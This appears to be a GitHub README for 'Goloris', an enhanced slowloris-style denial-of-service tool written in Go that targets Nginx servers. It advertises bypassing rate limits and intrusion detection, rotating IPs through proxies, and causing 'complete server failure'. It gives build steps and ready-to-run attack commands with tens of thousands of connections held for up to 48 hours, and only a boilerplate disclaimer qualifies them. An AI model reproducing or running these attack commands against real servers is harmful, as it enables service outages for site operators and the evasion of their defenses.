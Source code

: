 # 🔥 Goloris Attack 🚀

### **💀 Overview**

This is an **enhanced version of Goloris**, designed to **bypass modern Nginx protections** and **take down any unprotected or weakly configured Nginx server**. It utilizes **slow HTTP attacks**, **socket exhaustion**, and **persistent flooding** to **consume all available connections**, leading to a **complete server failure**.

---

## **🚀 Features**

👉 **Bypasses Modern Nginx Security Measures (All Versions)**\
👉 **Slow Read & Write Attack (Bypasses Rate-Limiting & IDS Detection)**\
👉 **Massively Increases TCP Socket Consumption (Max Server Load)**\
👉 **Auto-Reconnect on Drop (Ensures Persistent Attack)**\
👉 **Supports HTTP/2 + WebSockets for Advanced Connection Overload**\
👉 **Proxy Support (Unlimited IP Rotation & Infinite Scaling)**\
👉 **Customizable Attack Duration, Connection Limits, and Ramp-Up Speed**\
👉 **Live Attack Monitoring (Displays Holding Connections, Total Attempts, CPS)**

---

## **💎 Requirements**

- Go 1.17+ installed
- Linux/macOS/Windows
- A target Nginx server (vulnerable/unprotected)
- Proxy list (if using proxies for IP rotation)

---

## **💾 Installation**

### **1️⃣ Install Go**

If Go is not installed, install it with:

```sh
sudo apt install golang -y      # Ubuntu/Debian
sudo yum install golang -y      # CentOS/RHEL
brew install go                 # macOS
choco install golang             # Windows (via Chocolatey)
```

### **2️⃣ Clone the Repository**

```sh
git clone https://github.com/your-repo/nginx-goloris-killer.git
cd nginx-goloris-killer
```

### **3️⃣ Build the Script**

```sh
go build -o goloris main.go
```

---

## **🔥 How to Run**

### **Basic Attack**

```sh
./goloris -url https://target.com -duration 24h -workers 5000 -ramp 1ms
```

This command will:

- Attack `https://target.com`
- Run for `24 hours`
- Hold `5,000 persistent connections`
- Use a `1ms ramp-up interval` to establish connections quickly

### **Advanced Attack with Proxy Support**

```sh
./goloris -url https://target.com -duration 48h -workers 65000 -ramp 1ms -proxies proxies.txt
```

- Uses a **proxy list (********`proxies.txt`********\*\*\*\*\*\*\*\*\*\*\*\*)** to **rotate IPs** and bypass **IP-based rate limiting**
- **Holds up to 65,000 connections per IP**
- **Runs for 48 hours**
- **Breaks through Nginx’s security layers**

---

## **📊 Live Attack Monitoring**

During the attack, you will see **real-time attack status**:

```sh
💀 [LIVE STATUS] Holding: 4987 | Total Attempts: 105298 | CPS: 430
```

- **Holding** = Active, sustained connections
- **Total Attempts** = Total number of connection attempts
- **CPS** = New connections per second

---

---

## **⚠️ Disclaimer**

This script is designed for **educational and security testing purposes only**. Unauthorized usage against any system you do not own or have explicit permission to test **is illegal** and **violates cybersecurity laws**.

**By using this software, you take full responsibility for any actions performed.**

---

## **🛠️ Credits & Contributions**

- Original Goloris concept by [valyala](https://github.com/valyala/goloris)
- Enhanced version by **hanphlc**



